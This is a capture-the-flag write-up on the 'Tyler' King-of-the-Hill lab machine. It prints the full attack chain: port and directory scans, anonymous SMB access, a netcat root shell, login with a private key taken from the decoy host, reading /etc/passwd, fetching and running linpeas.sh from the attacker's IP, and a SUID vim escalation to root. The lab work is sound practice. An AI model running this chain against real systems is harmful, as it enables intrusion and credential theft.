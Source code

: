 # Tyler.THM - Koth



# enum

```bash
nmap lion.thm -p- 
nmap lion.thm -sV -sC 
nmap lion.thm 
```

we got 2 http servers, 80 8080
```bash 
gobuster dir -u tyler.thm:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
gobuster dir -u tyler.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

we also get some smb ports and unknown port on 6555.
lets start enum the smb to see if there are any shere's that we can enter

# SMB

```bash
smbclient -L \\\\tyler.thm\\

Enter WORKGROUP\root's password:  # NO PASSWORD JUST PRESS ENTER
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.9.1)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	SAMBA                TYLER
```
lets check all the folders

```bash
$ root@kali:# smbclient \\\\tyler.thm\\print$

Enter WORKGROUP\root's password: 
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED

$ root@kali:~/Desktop/CTF/THM/#KOTH/tyler# smbclient \\\\tyler.thm\\IPC$

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

$ root@kali:# smbclient \\\\tyler.thm\\public

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 25 17:09:50 2020
  ..                                  D        0  Wed Mar 25 17:02:28 2020
  flag.txt                            N       33  Wed Mar 25 17:08:05 2020
  alert.txt                           N       50  Wed Mar 25 17:09:50 2020

		13092864 blocks of size 1024. 8517996 blocks available
smb: \> mget *
Get file flag.txt? 
Get file alert.txt? 
smb: \> 
```

so we got a flag but still we are far off...
in the alert.txt file we get some code that i think  its a rabit hole..

### port 6555

from out nmap scan we found port 6555. lets try to see what it contains

```bash
nc tyler.thm 6555
whoami
root
```

as simple as that we got outself a root shell on the machine! lets declare a king.
```bash
cd /root
ls -al

total 24
dr-xr-x---  3 root root 119 Mar 25 15:25 .
dr-xr-xr-x 17 root root 244 Mar 25 09:59 ..
-rw-r--r--  1 root root  18 Dec 28  2013 .bash_logout
-rw-r--r--  1 root root 176 Dec 28  2013 .bash_profile
-rw-r--r--  1 root root 176 Dec 28  2013 .bashrc
-rw-r--r--  1 root root 100 Dec 28  2013 .cshrc
-rw-r--r--  1 root root  33 Mar 25 15:25 flag.txt
drwx------  2 root root  61 Mar 25 15:23 .ssh
-rw-r--r--  1 root root 129 Dec 28  2013 .tcshrc
```

what? no king.txt?
so this is a "rabit hole" somewhat and this shell is seperated from the main machine somehow
I tried to enumerate and see if i can gather some info on the main machine

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ok! we got a user "tdurden" and his id_rsa files
so from a state that i thought that this is defenetly a rabithole im now sure that this is the way to go.

I'll copy id_rsa to my own machine and try to login
```bash
chmod 600 id_rsa

ssh tdurden@10.10.106.164 -i idrsa 
Last login: Mon Jul 13 05:55:42 2020 from ip-10-9-6-216.eu-west-1.compute.internal


[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```
YES! we got a shell on the 'main' machine
now we can enumerate some more.
I'll try to get linpeas

```bash
cd /tmp
wget 10.9.6.216/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

we got from linpease a SUID on vim. this must be it!
lets search for SUID shell on 'GTFO bins'

https://gtfobins.github.io/

```bash
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
^[[2;2R^[]11;rgb:2929/2d2d/2e2e^Gsh-4.2# 2R11;rgb:2929/2d2d/2e2ewhoami
sh: 2R11: command not found
sh: rgb:2929/2d2d/2e2ewhoami: No such file or directory
sh-4.2# whoami
root
sh-4.2# 
```

<!---
flags:

decoy machine /root/flag.txt
main machine 
/home/user/flag.txt
/root/root.txt

smb tyler.thm/public flag.txt + alert.txt
--->
